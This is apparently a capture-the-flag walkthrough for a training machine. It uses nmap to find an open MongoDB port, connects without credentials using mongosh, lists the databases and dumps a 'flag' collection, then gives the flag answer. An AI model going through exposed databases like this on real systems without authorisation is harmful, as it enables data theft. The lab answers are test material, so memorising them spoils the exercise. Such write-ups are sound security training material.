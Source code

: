 Connect the VPN, spawn the VM. <br>
10.129.143.221


###  Task 1

How many TCP ports are open on the machine? 
```
# nmap -sS 10.129.143.221 -p- -n -Pn
```

And the results:
```
Nmap scan report for 10.129.143.221
Host is up (0.25s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod

Nmap done: 1 IP address (1 host up) scanned in 1213.84 seconds

```

Answer: 2


###  Task 2

Which service is running on port 27017 of the remote host? 


We didn't do service identification on the previous nmap, so lets run that now:
```
# nmap -sS 10.129.143.221 -sV -p 27017 -n -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-02 05:27 EDT
Nmap scan report for 10.129.143.221
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

Answer: MpongoDB 3.6.8

###  Task 3

What type of database is MongoDB? (Choose: SQL or NoSQL) 

Answer: NoSQL

###  Task 4

What is the command name for the Mongo shell that is installed with the mongodb-clients package? 

Answer: mongo

Unfortunately when I tried to run mongo from the command line in Kali it failed with:
```
└─# mongo        
zsh: illegal hardware instruction  mongo
```

I used google to get the mongo command parameters, and mongosh for the remainder

###  Task 5

What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;) 

Connect to the database:
```
└─# mongosh "mongodb://10.129.143.221:27017" 
```

```
test> help
```

```

  Shell Help:

    use                                        Set current database
    show                                       'show databases'/'show dbs': Print a list of all available databases.
                                               'show collections'/'show tables': Print a list of all collections for current database.
                                               'show profile': Prints system.profile information.
                                               'show users': Print a list of all users for current database.
                                               'show roles': Print a list of all roles for current database.
                                               'show log <type>': log for current connection, if type is not set uses 'global'
                                               'show logs': Print all logs.

    exit                                       Quit the MongoDB shell with exit/exit()/.exit
    quit                                       Quit the MongoDB shell with quit/quit()
    Mongo                                      Create a new connection and return the Mongo object. Usage: new Mongo(URI, options [optional])
    connect                                    Create a new connection and return the Database object. Usage: connect(URI, username [optional], password [optional])
    it                                         result of the last line evaluated; use to further iterate
    version                                    Shell version
    load                                       Loads and runs a JavaScript file into the current shell environment
    enableTelemetry                            Enables collection of anonymous usage data to improve the mongosh CLI
    disableTelemetry                           Disables collection of anonymous usage data to improve the mongosh CLI
    passwordPrompt                             Prompts the user for a password
    sleep                                      Sleep for the specified number of milliseconds
    print                                      Prints the contents of an object to the output
    printjson                                  Alias for print()
    cls                                        Clears the screen like console.clear()
    isInteractive                              Returns whether the shell will enter or has entered interactive mode

  For more information on usage: https://docs.mongodb.com/manual/reference/method

```

Answer:  show dbs
```
test> show dbs
admin                  32.00 KiB
config                 72.00 KiB
local                  72.00 KiB
sensitive_information  32.00 KiB
users                  32.00 KiB
test> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
```


###  Task 6

What is the command used for listing out the collections in a database? (No need to include a trailing ;) 

```
test> use admin
switched to db admin
admin> show collections
system.version
admin> 
```

Answer: show collections

###  Task 7

What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read? 

```
admin> use sensitive_information
switched to db sensitive_information
sensitive_information> db.flag.find().<tab><tab>
```

Gives the list of commands to use with find().

```
sensitive_information> db.flag.find().
db.flag.find().allowPartialResults  db.flag.find().collation            db.flag.find().comment              db.flag.find().hasNext              db.flag.find().hint                 db.flag.find().limit
db.flag.find().max                  db.flag.find().maxAwaitTimeMS       db.flag.find().min                  db.flag.find().next                 db.flag.find().noCursorTimeout      db.flag.find().oplogReplay
db.flag.find().readPref             db.flag.find().returnKey            db.flag.find().size                 db.flag.find().tailable             db.flag.find().showRecordId         db.flag.find().readConcern
db.flag.find().batchSize            db.flag.find().close                db.flag.find().forEach              db.flag.find().tryNext              db.flag.find().isClosed             db.flag.find().isExhausted
db.flag.find().itcount              db.flag.find().toArray              db.flag.find().pretty               db.flag.find().map                  db.flag.find().maxTimeMS            db.flag.find().projection
db.flag.find().skip                 db.flag.find().sort                 db.flag.find().objsLeftInBatch      db.flag.find().explain
```

Answer: db.flag.find().pretty()

###  Submit Flag

Submit root flag 
Answer: 1b6e6fb359e7c40241b6d431427ba6ea

